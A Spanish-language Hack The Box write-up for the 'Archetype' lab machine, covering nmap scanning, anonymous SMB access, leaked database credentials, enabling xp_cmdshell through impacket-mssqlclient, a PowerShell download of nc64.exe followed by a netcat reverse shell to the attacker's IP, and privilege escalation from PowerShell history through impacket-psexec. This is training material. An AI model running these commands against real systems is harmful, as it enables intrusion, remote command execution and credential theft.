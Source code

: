 ```yaml
---
title: Writeup archetype - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - archetype
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina archetype en Hack The Box.
keywords:
  - writeup archetype
  - hack the box archetype
  - resolución máquina archetype
  - archetype hack the box
  - htb archetype
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Windows/Archetype)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=Xz5oX2bH5VM)|[Parte2](https://www.youtube.com/watch?v=562uiR37VvA)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=lE4SgO_s_d8)

--------

#veryeasy #windows #nmap #ping #smb #netcat #impacket-mssqlclient

---
# Guided Mode

1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas

7)¿Qué archivo contiene la contraseña del administrador?
	consolehost_history.txt

---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`445` [[smb]]
*Datos Importantes:*
	Nos podemos conectar con el usuario guest a [[smb]]

-------
# Intrusion por [[smb]] 

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups con el comando `get prod.dtsConfig` y luego lo abrimos en nuestra maquina
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc

-----
# Nos conectamos a la base de datos con [[impacket-mssqlclient]]

Vamos a entablar la conexion con el comando `impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_srvrolemember('sysadmin');` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el [[xp_cmdshell]]

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el [[Herramientas-Comandos/Bases de datos/SQL/MSSQL/xp_cmdshell]] por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc. Asi que ya confirmamos que esta activado el xp_cmdshell


---------
# [[Reverse shell]] para la intrusion
#### Para mandar la [[Reverse shell]] vamos a necesitar de [[Netcat]]

[Link de netcat para 64bits](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) Vamos a levantar un server de [[python3 -m http.server]] desde nuestra maquina, para que por wget lo descargue la maquina victima. Y a posteriori vamos a ponernos en escucha con  [[rlwrap -cAr nc -lvnp 443]] para la reverseshell

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.16/nc64.exe -outfile nc64.exe"           / Descargamos el archivo
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"                       / Mandamos la reverseshell
```

![[Archetype14.png]]
![[Archetype13.png]]

``rlwrap nc -lvnp 443``  Para estar en escucha

![[Archetype16.png]]
Y una vez dentro, podemos visualizar la primera flag

![[Archetype15.png]]

-------
# Escalada de privilegios con [[Logs de la powershell y de consola]]

#### Vamos a visualizar los logs de la powershell para ver si hay algun dato critico

Los logs estan en esta ruta ``C:\Users\sql_svc\appdata\roaming\microsoft\windows\powershell\psreadline``

Y al visualizar el log, vemos una contraseña
![[Archetype16.png]]
MEGACORP_4dm1n!!
#### Asi que vamos a intentar conectarnos con [[impacket-psexec]] ya que esta el servicio [[smb]]

``impacket-psexec Administrator@10.129.95.187 -port 445``
![[Archetype17.png]]
Una vez dentro ya podemos visualizar la flag
![[Archtype18.png]]

--------
# Creditos
Writeup Oficial HackTheBox